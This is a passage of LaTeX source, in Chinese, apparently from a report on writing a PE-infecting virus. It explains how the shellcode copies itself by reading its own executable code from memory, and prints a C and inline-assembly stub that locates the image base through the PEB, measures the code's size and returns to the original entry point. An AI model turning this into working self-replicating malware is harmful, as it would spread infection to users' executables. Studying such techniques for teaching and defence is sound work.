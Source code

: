 \documentclass[UTF8]{ctexart}
\begin{document}
    需要注意的是，如果 ShellCode 在内存中是只读的，我们就不能直接在内存中修改 jmp point 后一次性写入，而需要手动写入。

    在病毒自我复制时，使用的是只读可执行内存，所以需要额外手动写入。而使用 infect.c 静态装载 shellcode 时则不需要。

    写入完新节后，需要考虑文件对齐，将文件扩展到正确的大小。
    
    \subsection{病毒的自我复制}
    \label{sec:self-copy}
    将 shellcode 提取为 C 语言的无符号字符数组的做法，需要编写一个额外的程序，来将 shellcode 插入到 PE 文件中，而且被篡改的 PE 文件如果想具有传染性，又需要这个 shellcode 数组。这似乎是个无解的``逻辑套娃''，但仔细一想，它的解决办法其实不难理解。

    首先，提取的 shellcode 本质是可执行的二进制机器码，字符数组的本质是内存中的二进制数据。

    程序的可执行代码必然会出现在内存中。并且它们的属性一般为 r-x，即只读、可执行。如果知道地址，就可以直接在内存中读取这些二进制机器码。
    
    编写 ShellCode 时，会将除了主函数以外的函数全部设置为 \lstinline{inline}，再配合 \lstinline{/Ob1} 以上的优化选项，ShellCode 在内存中实质上是连续的。
    
    也就是说，只要知道 ShellCode 的起始内存地址和大小，就能够将 ShellCode 的代码空间看成字符数组，轻松的实现自我复制:

    \begin{lstlisting}[language=C, caption={
    动态 ShellCode}, captionpos=b]
void ShellCode() {
    int __code_start = (int)ShellCode;
    PPEB peb;
    PBYTE imageBase;
    // get peb
    __asm {
        mov eax, fs:[30h];
        mov peb, eax
    }
    // get imageBase
    imageBase = (PBYTE)peb->Reserved3[1];
    // Get Code info
    PBYTE codeAdr;
    DWORD codeSize, jmpPoint;
    __asm {
        mov eax, __code_end
        sub eax, __code_start
        mov codeSize, eax
        mov eax, __jmp_point
        sub eax, __code_start
        add eax, 1
        mov jmpPoint, eax
    }
    // for shellcode, codeRva = entryRva
    codeAdr = (PBYTE) *(DWORD *)(imageBase + 0x3C); 
    codeAdr = codeAdr + (DWORD)imageBase;// optHdr
    codeAdr = *(DWORD *)(codeAdr + 0x28); // entry rva
    codeAdr = codeAdr + (DWORD)imageBase; 
    // Return back
    __asm {
__jmp_point:
        mov eax, 0x0
        add eax, imageBase
        cmp eax, imageBase
        je __code_end
        jmp eax
    }
__code_end:
    return;
}
    \end{lstlisting}  
    
\end{document}
